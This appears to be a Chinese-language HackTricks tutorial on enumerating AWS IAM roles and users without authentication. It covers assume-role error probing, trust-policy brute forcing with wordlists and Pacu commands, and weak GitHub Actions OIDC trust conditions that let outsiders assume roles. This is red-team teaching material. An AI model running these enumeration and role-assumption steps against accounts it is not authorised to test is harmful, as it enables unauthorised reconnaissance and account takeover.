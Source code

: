 # AWS - IAM & STS 未经认证的枚举

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 在账户中枚举角色和用户名

### ~~假设角色暴力破解~~

{% hint style="danger" %}
**这项技术不再有效**，因为无论角色是否存在，您总会收到此错误：

`执行AssumeRole操作时发生错误（AccessDenied）：用户：arn:aws:iam::947247140022:user/testenv 未被授权在资源上执行：sts:AssumeRole：arn:aws:iam::429217632764:role/account-balanceasdas`

您可以**测试运行**：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

试图**在没有必要权限的情况下假设一个角色**会触发AWS错误信息。例如，如果未授权，AWS可能会返回：
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
此消息确认角色的存在，但表明其扮演角色策略不允许您的扮演。相比之下，尝试**扮演一个不存在的角色会导致不同的错误**：
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
这种**区分现有角色与不存在角色的方法**即使在不同的AWS账户之间也是适用的。有了一个有效的AWS账户ID和一个目标词表，人们可以在不面临任何固有限制的情况下枚举账户中存在的角色。

您可以使用这个[脚本来枚举潜在的主体](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)来滥用这个问题。

### 信任策略：暴力破解跨账户角色和用户

配置或更新**IAM角色的信任策略涉及定义哪些AWS资源或服务被允许承担该角色**并获取临时凭证。如果策略中指定的资源**存在**，信任策略将**成功**保存。然而，如果资源**不存在**，将生成一个**错误**，表明提供了一个无效的主体。

{% hint style="warning" %}
注意，在该资源中，您可以指定一个跨账户角色或用户：

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

这是一个策略示例：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

如果您使用的是**不存在的角色**，您会遇到这个**错误**。如果角色**存在**，策略将会被**保存**，且不会出现任何错误。（该错误信息是更新时的，但创建时也同样适用）

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
您可以使用以下工具自动化此过程 [https://github.com/carlospolop/aws_tools](https://github.com/carlospolop/aws_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

或使用 [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* 示例中使用的 `admin` 角色是您账户中的**一个角色，用于被 pacu 模拟**，以创建它需要进行枚举的策略

### 权限提升

如果角色配置不当，允许任何人扮演它：

![](<../../../.gitbook/assets/image (35).png>)

攻击者可以直接扮演它。

## 第三方 OIDC 联合

想象一下，您设法读取了一个正在访问 **AWS** 内部**角色**的 **Github Actions 工作流**。\
这种信任可能会授予对具有以下**信任策略**的角色的访问权限：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
此信任策略可能是正确的，但是**缺乏更多条件**应该让你对它持怀疑态度。\
这是因为前面的角色可以被**来自Github Actions的任何人**扮演！你应该在条件中也指定其他事项，如组织名称、仓库名称、环境、分支等...

另一个潜在的错误配置是**添加一个条件**，如下所示：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
请注意冒号 (:) 前的通配符 (\*)。您可以创建一个组织，例如 **org\_name1**，并从 Github Action **扮演角色**。

## 参考资料

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)
* [https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/](https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习 AWS 黑客技术！</strong></summary>

其他支持 HackTricks 的方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
